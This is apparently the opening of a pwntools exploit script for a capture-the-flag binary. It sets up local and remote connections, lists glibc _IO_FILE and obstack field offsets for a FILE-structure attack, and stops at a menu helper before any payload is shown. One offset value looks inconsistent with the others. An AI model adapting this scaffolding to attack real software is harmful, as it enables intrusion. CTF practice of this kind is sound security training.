 ```py

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('chall')
libc = pwn.context.binary = pwn.ELF('libc-2.31.so')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
# pwn.context.timeout = 1000

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source /home/nasm/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

io = None
io = start()

class File:
    flags          = 0x0
    _IO_read_base  = 24
    _IO_read_end   = 0x10
    _IO_write_base = 0x20
    _IO_write_ptr  = 0x28
    _IO_write_end  = 0x30
    _IO_buf_base   = 0x38
    _IO_buf_end    = 0x40
    fileno         = 0x70
    vtable         = 0xd8
    obstack       = 0xe0

class obstack:
    chunkfun       = 56
    extra_arg      = 56+16
    use_extra_arg  = 56+16+8

def fflush():
    io.sendlineafter(b"> ", b"1")
```